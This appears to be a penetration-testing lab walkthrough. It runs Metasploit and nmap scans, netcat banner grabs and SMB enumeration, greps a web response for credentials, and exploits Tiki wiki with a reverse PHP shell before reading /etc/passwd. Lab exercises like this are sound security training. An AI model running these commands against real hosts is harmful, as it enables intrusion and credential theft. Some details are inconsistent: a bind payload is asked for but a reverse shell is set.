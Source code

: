 ### Part 1

**1. Login and Start Framework Database**

Log on to the Kali LAN VM by using the username of `root` with the password of `toor`.  

Once logged in, from a command line terminal, start up the database service that Metasploit uses.  Then initialize the framework database before moving on.

**2. Start Metasploit**

From your open terminal start Metasploit.

- `service postgresql start`
- `msfdb init`
- `msfconsole`
- Check the status of your database by typing `db_status`.  

**3. Create and use a workspace**

Create a new workspace named “internal” and then set Metasploit to use that new workspace.

- `workspace -a internal` 

**4. Identify and Scan IP subnet**

Open another command line and in it identify the IP address of your Kali machine.  Next, return to the Metasploit console and perform a simple scan using nmap on the subnet that it belongs to.  Your focus is to identify the live IP addresses on this subnet and have that data automatically added to the workspace database.

- `ifconfig`
- `db_nmap -sS 192.168.1.0/24`

**5. View Discovered Hosts and IP Adderesses**

Once the Nmap scan is complete, use the appropriate command in Metasploit to display the hosts you discovered during the scan along with their associated IP addresses.  Next, copy all of the listed host IP addresses, add them to into a file named lan.txt and then save that new file.

- `db_nmap -sS 192.168.1.0/24`
- `hosts`
- `db_nmap -sS -oN lan.txt 192.168.1.0/24`

**6. Identify Host Operating Systems**

From the Metasploit console, use Nmap to scan the systems you discovered. Use the lan.txt file as the source of IP addresses to scan. This time, ensure Nmap also determines the operating system running on these devices.

After the scan is complete, use the appropriate command to view the host information again.  Make a mental note concerning what operating systems you will be dealing with on this network.

- `db_nmap -sS -O -oN lan.txt 192.168.1.0/24`
  - Alternatively `-A` could be used instead of `-O` 
- `hosts`

**7. View Services on Specific Hosts**

Use the appropriate command to list the services that were discovered on all systems.

Since we want to focus on 192.168.1.250, use the command to list the service information for that specific system.

- `services`
- `services 192.168.1.250`

**8. Run Nmap Scripting Engine Against a Host**

Run all of the default nmap scripting engine scripts against the .250 host to attempt to discover any vulnerabilities on that system.

- `db_nmap --script "default" 192.168.1.250`

**9. Continue Host Discovery**

Continue your discovery by scanning the 192.168.1.* network segment. Try to gain as much information as possible about your targets. Research version types, possible OS and service-related vulnerabilities and prepare a list of possible attack vectors for future use against the services you discover.  To keep things straight, document your notes and findings in a text file on your attack (Kali) box.

- `db_nmap --top-ports 20 192.168.1.250`
- `db_nmap -oN subnet.txt --script "(default or safe or intrusive)" 192.168.1.250`
- `db_nmap -T4 -A -v 20 192.168.1.250`

### Part 2

**1. Test an Open Port with Telnet**

With the previous scan of 192.168.1.250, you noted that the IMAP port appears to be open.  Use Use telnet to confirm, then record its status.

- Using `telnet 192.168.1.250 143` you can establish a TCP connection. However, a message that says `Connection closed by foreign host` appears meaning that the telnet service fails.

**2. Grab the Banner Information**

You also noticed that port 80 appears to be open as well on 192.168.1.250. Use netcat to grab the banner from this system and export the results to 192_168_1_250_Banner_Grab.txt.  Next, review the contents of the banner grab text file from the command line.  Make note of the server operating system in your findings.
- `nc 192.168.1.250 80 > 192_168_1_250_Banner_Grab.txt`
- Press `enter` then `HEAD/HTTP/1.0`

**3. Get More Web Server Information**

Use netcat again, but this time use the technique to pull more information from the webserver.  You will be using the GET command and will need to pipe the results into a file named 192_168_1_250_GET_output.txt.
- `nc 192.168.1.250 80 > 192_168_1_250_GET_output.txt`
-  Press `enter` then `GET HEAD/ HTTP/1.0` then press the enter key twice.

**4. Find User Account Credentials**

Use grep to find all of the user accounts in the 192_168_1_250_GET_output.txt file.  Make note of the account and password data for possible future use.
- `grep 'user' 192_168_1_250_GET_output.txt `

**5. Continue Scan Verification Hosts**

Continue testing the ports of the systems you have run across and see if you can discern any other inroads to use in the future. As always, document your findings on your attack (Kali) box.
- `nc -v 192.168.1.250 1-1000`

### Part 3

**1. Return to Metasploit**

Return to Metasploit.  If you closed the Metasploit console terminal earlier please ensure you also return to the internal workspace you created earlier.

- `msfconsole` 

**2. Run Service Scans on Windows XP Host**

Review your notes and find the Windows XP device on the network.  Next, query Metasploit for the services running on that system.  The detail on these services looks pretty thin.  Use Metasploit to perform an SMB and a NetBIOS scan on the Windows XP host.

- `services 192.168.1.200`
- `use auxiliary/scanner/netbios/nbname`
- `use auxiliary/scanner/smb/smb_enumusers`
- `use auxiliary/scanner/smb/smb_login`
- `use auxiliary/scanner/smb/smb_enumshares`
- `use auxiliary/scanner/smb/smb2`
- `use auxiliary/scanner/smb/smb_version`

**3. Identify Services on a Host**

In Metasploit, query and review the new data uncovered concerning the services running on the Windows XP host.

Services found are:
- `Windows 2008 Service Pack 1`
- `Samba 3.4.7`

**4. Continue Host Enumeration**

As always, continue your target host enumeration with Metasploit tools against other systems on the network segment.  Note your findings in a text file on your attack (Kali) box.

Interesting things about the server are:
- `System does not accept authentication with any credentials`
- `Supports SMB 2`

### Part 4

**1. Search for Specfic Application Exploits**

Having assessed the results of your previous scans note that PHP is enabled on one of the systems - providing an avenue for potential exploitation. After reviewing 192_168_1_250_GET_output.txt file, you determine that PHP is being used on this server with Tiki wiki.  Armed with that knowledge use it to find possible exploits that can be used.

**2. Select Attack Module**

Next, from the list of possible exploits, choose the exploit that best lines up with the specific wiki and PHP.  Go through the steps of setting up the exploit, prepping a bind TCP Meterpreter payload, and deploying it against the server.  Note all the details concerning the database and user credentials.

- `search tikiwiki`
- `use exploit/unix/webapp/tikiwiki_graph_formula_exec`
- `show options`
- `set RHOSTS 192.168.1.250`
- `set targeturi /kiki/`
- `show payloads`
- `set payload php/reverse_php`
- `show options`
- `set LHOST 192.168.1.50`
- `exploit`
  - If for some reason it fails run `exploit` again. If it still fails check your options.
- `whoami`
- `cat /etc/passwd`

**3. Continue Exploitation**

You now have one Meterpreter session on the Linux box. There may be other ways to gain a session on this machine. Using Metasploit, try to find an additional way to exploit this Linux victim. As usual, document your findings on your attack (Kali) box.






 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
